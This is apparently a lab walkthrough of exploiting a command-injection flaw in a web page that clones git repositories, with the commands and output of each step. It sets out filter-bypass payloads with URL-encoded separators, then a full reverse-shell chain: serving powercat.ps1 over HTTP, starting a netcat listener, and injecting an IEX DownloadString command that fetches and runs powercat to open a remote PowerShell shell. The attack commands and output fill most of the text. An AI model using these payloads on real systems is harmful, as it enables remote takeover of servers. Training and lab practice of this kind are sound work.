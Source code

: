We get a page where we can clone git repositories. This means that we can execute commands. Now let's see how far can we can get. 

```
$ curl -X POST --data 'Archive=ipconfig' http://192.168.50.189:8000/archive

Command Injection detected. Aborting...%!(EXTRA string=ipconfig)   
```

Command injection detected so we see if only git works:
```
curl -X POST --data 'Archive=git' http://192.168.50.189:8000/archive

An error occured with execution: exit status 1 and usage: git [--version] [--help] [-C <path>] [-c <name>=<value>]...
```
```
curl -X POST --data 'Archive=git version' http://192.168.50.189:8000/archive

Repository successfully cloned with command: git version and output: git version 2.35.1.windows.2
```

Now we try to URL encode with "%3B" to combien git and ipconfig commands
```
$ curl -X POST --data 'Archive=git%3Bipconfig' http://192.168.50.189:8000/archive

...
'git help -a' and 'git help -g' list available subcommands and some
concept guides. See 'git help <command>' or 'git help <concept>'
to read about a specific subcommand or concept.
See 'git help git' for an overview of the system.

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 192.168.50.189
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.50.254
```

```
kali@kali:~$ curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://0.0.0.0:8000/archive

...
See 'git help git' for an overview of the system.
PowerShell
```

And now we try to use powercat (PowerShell implementation of Netcat)
```
kali@kali:~$ cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .

kali@kali:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
```

```
IEX (New-Object System.Net.Webclient).DownloadString("http://0.0.0.0/powercat.ps1");powercat -c 0.0.0.0 -p 4444 -e powershell 
```

```
kali@kali:~$ curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.119.3%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.119.3%20-p%204444%20-e%20powershell' http://0.0.0.0:8000/archive
```

```
kali@kali:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
1.1.1.1 - - [05/Apr/2022 09:05:48] "GET /powercat.ps1 HTTP/1.1" 200 -
```

```
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [1.1.1.1] from (UNKNOWN) [1.1.1.1] 50325
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\Documents\meteor>
```